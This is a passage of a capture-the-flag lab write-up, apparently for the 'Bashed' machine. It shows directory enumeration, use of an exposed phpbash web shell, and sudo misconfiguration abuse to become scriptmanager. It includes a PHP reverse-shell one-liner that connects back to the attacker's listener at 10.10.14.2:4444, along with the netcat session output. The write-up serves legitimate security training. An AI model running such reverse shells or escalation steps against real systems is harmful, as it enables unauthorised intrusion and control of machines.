 ```bash
/.htpasswd.php        (Status: 403) [Size: 307]
/.htaccess.php        (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 303]
```

# Exploitation
---
Began navigating through all of the '301s' manually and eventually found the phpbash.php file underneath the /dev directory:
![[Pasted image 20220627103220.png]]
and now we have a low-level shell within the browser:
![[Pasted image 20220627103251.png]]


# Privilege Escalation
---
Did a quick 'find' for the user.txt flag - cat'd out and submitted. Checked sudo -l out of habit and found that user scriptmanager can run any command with no password:
```bash
www-data@bashed
:/var/www/html# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed
:/var/www/html# find /* -name user.txt

find: '/etc/ssl/private': Permission denied
/home/arrexel/user.txt
```

## Reverse Shell
In order to get a reverse shell, I looked up PHP Reverse Shell cheatsheets and found the following [Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) . Pulled out the syntax, modified, started a listener on my machine, and moved over to the terminal window.
```bash
php -r '$sock=fsockopen("10.10.14.2",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## Shell Stabilization
Needed a better shell. Ran /bin/bash as user scriptmanager, confirmed that python 2 is installed, pulled up the appropriate syntax for python pty:
```bash
─[us-vip-4]─[10.10.14.2]─[htb-ghohst@pwnbox-base]─[~/Downloads/phpbash]
└──╼ [★]$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 48594
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo -u scriptmanager /bin/bash
whoami
scriptmanager
```